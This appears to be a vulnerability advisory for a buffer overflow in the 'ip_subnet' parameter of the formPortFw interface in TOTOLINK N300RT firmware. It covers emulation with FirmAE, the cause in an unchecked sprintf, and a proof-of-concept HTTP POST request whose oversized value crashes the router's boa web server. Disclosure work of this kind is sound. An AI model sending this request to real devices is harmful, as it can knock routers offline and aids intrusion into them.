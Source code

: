 ## **Description**

A buffer overflow vulnerability was discovered in the TOTOLINK firmware N300RT-Ad-V4.0.0-B20211109.1137. The vulnerability arises from the improper input validation of the `'ip_subnet'` parameter in the 'formPortFw' interface of the file boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: N300RT
- ​**Version**: V4.0.0-B20211109.1137

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d totolink ../FIRMWARE/TOTOLINK-N300RT-Ad-V4.0.0-B20211109.1137.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 
![sim_res](work_record/TOTOLINK/N300RT_ad/7/img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'FUN_00415ae0' is below:
![vulner_code.png](work_record/TOTOLINK/N300RT_ad/7/img/vulner_code.png)
- ​**web_get_var** retrieves POST parameters.
- **sprintf()** is used without length checks, leading to a ​buffer overflow.​

## **Proof of Concept (PoC)**
### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test. To trigger the vulner, we set the parameter 'addPortFw' to not None.
Example package
```http
POST /boafrm/formPortFw HTTP/1.1  
Host: 192.168.0.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 661  
Origin: http://192.168.0.1
Connection: close  
Referer: http://192.168.0.1/wlwps.htm
Cookie: session=1335027320  
Upgrade-Insecure-Requests: 1  
  
addPortFw=1&fw_ip=1&ip_subnet=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

After the request the `boa` process will crash.
![result](work_record/TOTOLINK/N300RT_ad/7/img/result.png)